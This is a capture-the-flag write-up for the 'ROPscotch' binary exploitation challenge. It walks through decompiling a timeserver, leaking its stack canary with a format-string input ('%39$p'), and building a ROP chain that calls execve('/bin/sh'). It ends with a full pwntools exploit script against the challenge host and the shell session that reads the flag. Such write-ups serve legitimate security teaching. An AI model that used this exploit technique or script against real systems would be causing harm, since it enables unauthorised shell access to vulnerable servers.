




# Trellix ROPscotch Write Up

## Details:

Jeopardy style CTF

Category: Binary Exploitation

Comments:

```
We just received our latest correspondence from Catmen in the field:

K9's can't coordinate if they can't keep their time and date server secure. We've previously hacked it using a buffer overflow, but they've recently added new security features, including enabling the NX bit and compiling the code with stack canaries. They think they are 100% protected but luckily I have you! Show them what you're made of!

Once you've had a chance to audit the "new and improved" timeserver binary for weaknesses, use it to take control of their server, which you can access at 0.cloud.chals.io:11317. Once you've gained access, retrieve any sensitive information you can find and get out.
```

## Write up:

Opening the main function of this binary in a decompiler I saw:

```c
0804a3aa      void* const var_4 = __return_addr
0804a3b1      void* var_10 = &arg_4
0804a3c0      void* gsbase
0804a3c0      int32_t eax = *(gsbase + 0x14)
0804a3da      _IO_setvbuf(stdout, 0, 2, 0)
0804a3e2      int32_t var_18 = 1
0804a3e9      get_local_tz()
0804a40e      for (; var_18 != 0; var_18 = action())
0804a3fa          _IO_puts("Welcome to the time and date ser…")
0804a402          int16_t top = top - 1
0804a402          unimplemented  {call action}
0804a41f      if ((eax ^ *(gsbase + 0x14)) == 0)
0804a42f          return 0
0804a421      __stack_chk_fail()
0804a421      noreturn
```

I saw that there wasn't too much interesting content in this function so I decided to take a look at the action function. After cleaning up the function a bit, resolving a missing parameter for scanf and renaming the variables I ended up with the following:

```c
0804a28b  int80_t action()

0804a2a4      void* gsbase
0804a2a4      int32_t canary = *(gsbase + 0x14)
0804a2c0      void user_input
0804a2c0      int80_t num_items_read = __isoc99_scanf("%s", user_input: &user_input)
0804a2e3      if (sub_80490e0(&user_input, "T") == 0)
0804a2ea          print_time(1)
0804a312      else if (sub_80490e0(&user_input, "D") == 0)
0804a319          print_time(2)
0804a33e      else if (sub_80490e0(&user_input, "L") != 0)
0804a356          _IO_printf("Invalid option: ")
0804a368          _IO_printf(&user_input)
0804a375          putchar(0xa)
0804a340      else
0804a340          get_location()
0804a393      if ((canary ^ *(gsbase + 0x14)) == 0)
0804a39e          return num_items_read
0804a395      __stack_chk_fail()
0804a395      noreturn
```

This function is protected using a stack canary which is saved at the start of the function and checked at the end of the function to make sure that we do not overflow anything. The function then reads in our input and if we type T it calls the print_time functin with a value of 1, if we use D we call the function with a value of 2. If our input is equal to L we call a function called get_location, otherwise we print out the user input. 

My first step here was to see if there really was a stack canary so I tried to just overflow the value:

```
Welcome to the time and date server!
Please select from the following options.
	T = Show current time.
	D = Show current date.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Invalid option: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

This ended up being the case, but I was also able to confirm that I was able to get an overflow so now I was able to formulate my exploitation plan. Since the main function loops through the action function numerous times, our first step is to print out the value of the canary, then we will overflow, rewrite the canary value with the correct value, and then we are going to use a rop chain in order to call execve("/bin/sh"). 

Looking at the disassembly we can see that the canary value is read into eax:

```asm
0804a2a4  mov     eax, dword [gs:0x14]
```

I then opened the program up in GDB and set a breakpoint at the instruction after the one above:

```
b *0x804a2aa
```

I then ran the program and wrote down the value of eax at this point, I then set a second breakpoint at the address right before we would call the printf `0804a368` so I could see the stack at that moment to see where on the stack the canary was. To see the stack I ran `x/40 $sp`:



Where eax is the canary value



As you can see in the above, we can see the canary on the stack right at the printf call. Now that we think we know where the canary is lets confirm it by trying to print that value off of the stack. To do this I set the breakpoint again to see what the canary was and then passed in `%39$x` as our input since 39 is the position on the stack that our canary is when the print is called.

Now that we can read the canary, we need to know how much we have to overflow our input in order to overwrite the canary. Luckily binja has a stack view that makes it very easy to see:



From this we can see that in order to overflow into our canary we will need to write 0x80 (0x90 - 0x10) bytes. So lets try writing that many bytes, then writing our canary value, and then lets fill the return address with trash to see if we can get a segfault:

```py
# import pwntools
from pwn import *

# open process
s = process('./timeserver')

# print the text
print(s.recvuntil(b'date.\n'))

# send input for canary
s.sendline(b'%39$p')

# parse the canary
canary = p32(int(s.recvline().split(b': 0x')[1][:-1], 16))

# print the text
print(s.recvuntil(b'date.\n'))

# send payload with canary
s.sendline((b'a' * 128) + canary + (b'A' * 100))

# print the rest
print(s.recvline())
print(s.recvline())
print(s.recvline())
```

When we run the script we get a segfault without the warning about stack smashing:

```
[+] Starting local process './timeserver': pid 5037
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
b'Invalid option: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
Traceback (most recent call last):
...
EOFError
[*] Process './timeserver' stopped with exit code -11 (SIGSEGV) (pid 5037)
```

Now that we are able to overwrite the return address it is time for our rop chain. We are going to make a chain of gadgets in order to call `execve("/bin/sh")`. In order to do this we need to set ecx to 0, ebx to the address in memory for the string /bin/sh, and set eax to 11 as that is the system call for execve. Once all of the registers are set to these values we can call int 0x80 to perform the function call. 

I used a combination of ropper and binja in order to find the gadgets but the gadgets I ended up using were:

```
08066218  58                 pop     eax {var_c}
08066219  5a                 pop     edx {var_8}
0806621a  5b                 pop     ebx {__saved_ebx}  {_GLOBAL_OFFSET_TABLE_}
0806621b  c3                 retn     {__return_addr}
```
I used this gadget in order to set eax, edx, and ebx to values on the stack which I had full control over.


```
08067de4  8990ac180000       mov     dword [eax+0x18ac], edx  {perturb_byte}
08067dea  c3                 retn     {__return_addr}
```

I used this gadget in order to move whatever was in edx to a memory region defined by eax + 0x18ac.

```
08073700  f30f6f48c3         movdqu  xmm1, xmmword [eax-0x3d]
```

The last two opcodes of this gadget were 48 and c3 which by themselves equalled dec eax and then ret, I used these to decrement the value stored in eax.

```
0804ad4f  31c9               xor     ecx, ecx  {0x0}
0804ad51  cd80               int     0x80
```

And finally, I used this gadget in order to clear out ecx and then perform the system call. 



After looking through the sections of the file I decided to use the bss section since we had write access to it and it was fairly large. In the end my rop chain moved /bin/sh into the memory region and saved the address where we stored the string into ebx. The chain then moved 0x21 into eax and decremented eax 22 times since we could not simply put 11 into eax as it was an illegal character. And finally, we performed the syscall. The script for this ended up being:

```py
# import pwntools
from pwn import *

# open the remote connection
s = remote('0.cloud.chals.io', 11317)

# print the text
print(s.recvuntil(b'date.\n'))

# send input for canary
s.sendline(b'%39$p')

# parse the canary
canary = p32(int(s.recvline().split(b': 0x')[1][:-1], 16))

# print the text
print(s.recvuntil(b'date.\n'))

# intialize the string
rop = b''

# load /bin into edx and set eax to the memory we want
rop += p32(0x8066218)
rop += p32(0x08111321 - 0x18ac) # eax
rop += b'/bin' # edx
rop += p32(0x0) #ebx

# set the memory region with the above
rop += p32(0x8067de4)

# load /sh\x00 into edx and set eax to the memory we want
rop += p32(0x8066218)
rop += p32(0x08111321 + 4 - 0x18ac) # eax
rop += b'/sh\x00' # edx
rop += p32(0x0) #ebx

# set the memory region with the above
rop += p32(0x8067de4)

# set eax to 0x21, edx to null, and ebx to the address we stored the string
rop += p32(0x8066218)
rop += p32(0x21) # eax
rop += p32(0x0) # edx
rop += p32(0x08111321) #ebx

# dec eax 22 times
rop += p32(0x8073703) * 22

# system call
rop += p32(0x804ad4f)

# send payload with canary
s.sendline((b'a' * 128) + canary + (b'a' * 12) + rop)

# spawn the shell
s.interactive()
```

And when run we got:

```
[+] Opening connection to 0.cloud.chals.io on port 11317: Done
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
[*] Switching to interactive mode
Invalid option: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ ls
bin
boot
dev
entrypoint.sh
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
private
proc
root
run
sbin
srv
sys
timeserver
tmp
usr
var
$ cat flag.txt
ATR[84DC0D31584DC0D3]
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 11317
```